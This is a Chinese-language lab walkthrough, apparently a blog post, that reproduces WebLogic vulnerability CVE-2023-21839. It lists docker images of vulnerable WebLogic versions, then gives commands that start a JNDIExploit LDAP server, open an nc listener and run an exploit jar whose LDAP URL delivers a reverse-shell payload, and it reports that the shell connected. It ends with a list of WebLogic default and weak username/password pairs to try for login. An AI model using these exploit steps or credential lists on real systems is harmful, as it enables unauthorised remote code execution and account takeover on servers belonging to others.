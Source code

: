 Vulfocus 已经集成该漏洞环境可通过以下环境使用：  
```
docker pull vulfocus/vcpe-1.0-a-oracle-weblogic:12.2.1.2.0-jdk-release
docker pull vulfocus/vcpe-1.0-a-oracle-weblogic:12.2.1.1.0-jdk-release
docker pull vulfocus/vcpe-1.0-a-oracle-weblogic:12.2.1.3.0-jdk-release
docker pull vulfocus/vcpe-1.0-a-oracle-weblogic:12.2.1.4.0-jdk-release
docker pull vulfocus/vcpe-1.0-a-oracle-weblogic:12.2.1.0.0-jdk-release
docker pull vulfocus/vcpe-1.0-a-oracle-weblogic:14.1.1.0.0-jdk-release
docker pull vulfocus/vcpe-1.0-a-oracle-weblogic:12.1.2.0.0-jdk-release
docker pull vulfocus/vcpe-1.0-a-oracle-weblogic:12.1.3.0.0-jdk-release
docker pull vulfocus/vcpe-1.0-a-oracle-weblogic:10.3.6.0-jdk-release

```  
  
**漏洞环境：**利用vulhub  
  
**漏洞复现：**  
  
下载https://github.com/WhiteHSBG/JNDIExploit  
  
1、搭建ldap服务  
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i kali的ip

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7HkfId2mESp4HOrdtcDA4RxowSdrdOM9s8dNDFYmHic1trp7fm0uOwnRCmXnolWEqOmw8ic5kAzrxw/640?wx_fmt=png&from=appmsg "")  
  
2、kali 开启NC  
```
nc -lvvp 9999

```  
  
3、下载EXP  
  
https://github.com/DXask88MA/Weblogic-CVE-2023-21839  
  
执行命令  
```
java -jar Weblogic-CVE-2023-21839.jar 靶场 IP:7001 ldap://ldap服务器IP:1389/Basic/ReverseShell/ldap服务器IP/nc监听端口

```  
  
4、成功反弹shell，监听成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v7HkfId2mESp4HOrdtcDA4Riav7QKFcDjGwg7UOO68Rh2xLvSUq9icFGlRqf5pIyzEc4L48HubgiajlQ/640?wx_fmt=png&from=appmsg "")  
  
**Weblogic常用弱口令**  
  
可以去测试一下是否能登录上  
```
weblogic/Oracle@123
system/password
weblogic/weblogic
admin/security
joe/password
mary/password
system/security
wlcsystem/wlcsystem
wlpisystem/wlpisystem
weblogic/weblogic123
weblogic/weblogic2
system/password
weblogic/weblogic
admin/security
joe/password
mary/password
system/security
```